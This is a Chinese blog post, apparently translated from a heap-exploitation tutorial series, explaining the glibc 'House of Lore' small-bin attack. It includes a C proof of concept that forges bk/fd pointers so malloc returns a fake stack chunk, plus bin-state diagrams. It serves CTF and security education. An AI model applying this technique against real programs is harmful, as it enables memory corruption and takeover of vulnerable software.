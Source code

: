```yaml
---
title: Heap Exploitation系列翻译-14 House of Lore
tags: [CTF, pwn, heap]
layout: post
categories: translations
---
```


> 本文是对Dhaval Kapil的[Heap Exploitation](https://heap-exploitation.dhavalkapil.com/)系列教程的译文

这项攻击基本上是对于small bin和large bin的伪造堆块攻击. 然而, 因为约在2007年(对`fd_nextsize`和`bk_nextsize`的引入)一个新增的对large bin的保护, 该项技术变得不再可行. 这里我们只考虑small bin的情形. 首先, 一个small chunk会被放置在small bin中, 它的`bk`指针会被覆写成指向一个伪造的small chunk. 要注意的是在small bin的情况下, 插入操作发生在`首部`而移除操作发生在`尾部`. 一次malloc调用将首先移除bin中理应存在的堆块从而致使我们的伪堆块到了bin的`尾部`. 再下一次malloc调用就会返回攻击者的堆块.

考虑以下示例代码(下载完整版本 [这里](https://heap-exploitation.dhavalkapil.com/assets/files/house_of_lore.c)))

```c
struct small_chunk {
  size_t prev_size;
  size_t size;
  struct small_chunk *fd;
  struct small_chunk *bk;
  char buf[0x64];               // chunk falls in smallbin size range
};

struct small_chunk fake_chunk;                  // At address 0x7ffdeb37d050
struct small_chunk another_fake_chunk;
struct small_chunk *real_chunk;
unsigned long long *ptr, *victim;
int len;

len = sizeof(struct small_chunk);

// Grab two small chunk and free the first one
// This chunk will go into unsorted bin
ptr = malloc(len);                              // points to address 0x1a44010

// The second malloc can be of random size. We just want that
// the first chunk does not merge with the top chunk on freeing
malloc(len);                                    // points to address 0x1a440a0

// This chunk will end up in unsorted bin
free(ptr);

real_chunk = (struct small_chunk *)(ptr - 2);   // points to address 0x1a44000

// Grab another chunk with greater size so as to prevent getting back
// the same one. Also, the previous chunk will now go from unsorted to
// small bin
malloc(len + 0x10);                             // points to address 0x1a44130

// Make the real small chunk's bk pointer point to &fake_chunk
// This will insert the fake chunk in the smallbin
real_chunk->bk = &fake_chunk;
// and fake_chunk's fd point to the small chunk
// This will ensure that 'victim->bk->fd == victim' for the real chunk
fake_chunk.fd = real_chunk;

// We also need this 'victim->bk->fd == victim' test to pass for fake chunk
fake_chunk.bk = &another_fake_chunk;
another_fake_chunk.fd = &fake_chunk;

// Remove the real chunk by a standard call to malloc
malloc(len);                                    // points at address 0x1a44010

// Next malloc for that size will return the fake chunk
victim = malloc(len);                           // points at address 0x7ffdeb37d060
```

要注意到, 构造一个small chunk需要更多的步骤, 这是因为small chunks复杂的处理操作. 需要特别小心以确保每一个将要使用malloc返回的small chunk都满足`victim->bk->fd == victim`, 以通过安全检查"malloc(): smallbin double linked list corrupted". 此外也添加了额外的'malloc'调用以确保:

1. 第一个堆块在释放时会添加到unsorted bin而不是和top chunk合并
2. 第一个堆块会进入到small bin中因为它不满足大小为`len + 0x10`的malloc申请.

unsorted bin和small bin的状态如下所示

1. free(ptr).
```
Unsorted bin:
> head <-> ptr <-> tail

Small bin:
> head <-> tail
```
2. malloc(len + 0x10);
```
Unsorted bin:
> head <-> tail

Small bin:
> head <-> ptr <-> tail
```
3. Pointer manipulations1
```
Unsorted bin:
> head <-> tail

Small bin:
> undefined <-> fake_chunk <-> ptr <-> tail
```
4. malloc(len)
```
Unsorted bin:
> head <-> tail

Small bin:
> undefined <-> fake_chunk <-> tail
```
5. malloc(len)
```
Unsorted bin:
> head <-> tail

Small bin:
> undefined <-> tail         [ Fake chunk is returned ]
```
注意, 再次对small bin进行'malloc'调用会造成段错误
